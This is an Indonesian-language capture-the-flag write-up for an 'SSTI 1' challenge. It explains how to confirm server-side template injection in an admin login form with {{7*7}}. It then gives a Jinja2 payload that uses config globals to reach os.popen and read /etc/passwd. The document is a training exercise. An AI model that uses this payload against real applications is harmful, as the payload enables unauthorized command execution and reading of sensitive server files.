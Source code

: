 # SSTI 1

## Deskripsi Soal

Pada challenge ini, diberikan sebuah aplikasi login admin yang rentan terhadap **Server-Side Template Injection (SSTI)**.

File terkait: [login_admin](SSTI1/SSTI1.png)

## Identifikasi Kerentanan

Aplikasi menggunakan template engine yang tidak melakukan sanitasi input dengan baik, sehingga memungkinkan terjadinya SSTI.

## Langkah Penyelesaian

1. Buka aplikasi dan temukan form login.
2. Coba input payload SSTI sederhana, misal: `{{7*7}}` pada field username atau password.
(SSTI1/SSTI1.1.png)
3. Jika output pada halaman berubah menjadi `49`, maka aplikasi rentan SSTI.
(SSTI1/SSTI1.2.png)
4. Lanjutkan eksploitasi dengan payload lain, misal untuk membaca file:
   ```
   {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
   ```
5. Jika berhasil, Anda dapat membaca file sensitif pada server.
(SSTI1/SSTI1.3)

## Payload yang Digunakan

- `{{7*7}}`
- `{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [OWASP SSTI](https://owasp.org/www-community/vulnerabilities/Server-Side_Template_Injection)